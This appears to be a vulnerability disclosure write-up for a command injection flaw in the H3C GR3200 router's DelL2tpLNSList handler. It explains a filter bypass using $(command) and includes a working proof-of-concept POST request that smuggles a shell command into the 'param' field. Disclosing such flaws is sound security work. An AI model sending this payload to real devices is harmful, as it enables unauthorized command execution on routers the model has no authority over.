

# H3C GR3200 MiniGR1B0V100R014 Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/cn/
- Firmware download address ： https://www.h3c.com/cn/d_202202/1542099_30005_0.htm

### Product Information

Overview of affected versions of H3C GR3200 router：



## Vulnerability details

H3C GR3200 (<=MiniGR1B0V100R014) was found to contain a command insertion vulnerability in DelL2tpLNSList.This vulnerability allows an attacker to execute arbitrary commands through the "param" parameter.


Format the `param` parameter we entered into `V15` through the `snprintf` function, and execute our command through the system function. Because `V10` and `V11` are limited to 8 bytes, we can fill `V10` with 8 bytes so that when `%s` in the `snprintf` function is formatted, `V10` and `V11` will be connected actively.


Although the `sub_100695A4` function filters some dangerous characters, we can bypass them with `$(command)`.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following `POC` attacks

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://192.168.124.1:80/maintain_basic.asp
Cookie: JSESSIONID=04f803a0
Upgrade-Insecure-Requests: 1
Content-Length: 67

CMD=DelL2tpLNSList&GO=vpn_l2tp_session.asp&param=1;$(ps>/ww w/1)	#;
```


The picture above shows the debug log after POC is sent.


The above illustration shows the effect of command execution.

